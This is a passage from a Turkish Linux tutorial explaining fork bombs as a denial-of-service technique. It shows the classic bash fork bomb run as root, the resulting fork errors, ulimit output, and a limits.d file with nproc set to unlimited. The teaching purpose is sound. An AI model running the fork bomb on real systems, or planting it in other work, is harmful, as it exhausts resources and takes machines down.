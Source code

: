 ## Forkbomb

Bu bölüm boyunca gördüğümüz file descriptor'lar, pipeline mekanizması ve bir kullanıcının limitlerinin kötüye kullanımı sayesinde, basit bir takım işlemlerle sistemin kaynaklarını tüketip, başka işlemlere cevap vermesinin engellenmes, kısacası Denial of Service \(DoS\) durumuna düşmesi sağlanabilir. Forkbomb adı verilen bu teknik, sistem üzerindeki işlemlerin fork'larının oluşturulmasına izin veren bütün platform ve programlama dillerinde gerçekleştirilebilir.

```
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
```

```
[root@thompson ~]# :(){ :|:& };:
[1] 21369
[root@thompson ~]#
```

```
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes

[1]+  Done                    : | :
[root@thompson ~]#
```

![](/assets/Selection_076.png)

```
[emre@thompson ~]$ ulimit -aS
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 3884
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) unlimited
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```



```
[emre@thompson ~]$ cat /etc/security/limits.d/20-nproc.conf 
# Default limit for number of user's processes to prevent
# accidental fork bombs.
# See rhbz #432903 for reasoning.

#*          soft    nproc     4096
#root       soft    nproc     unlimited
emre	    hard    nproc     unlimited
emre        soft    nproc     unlimited
```



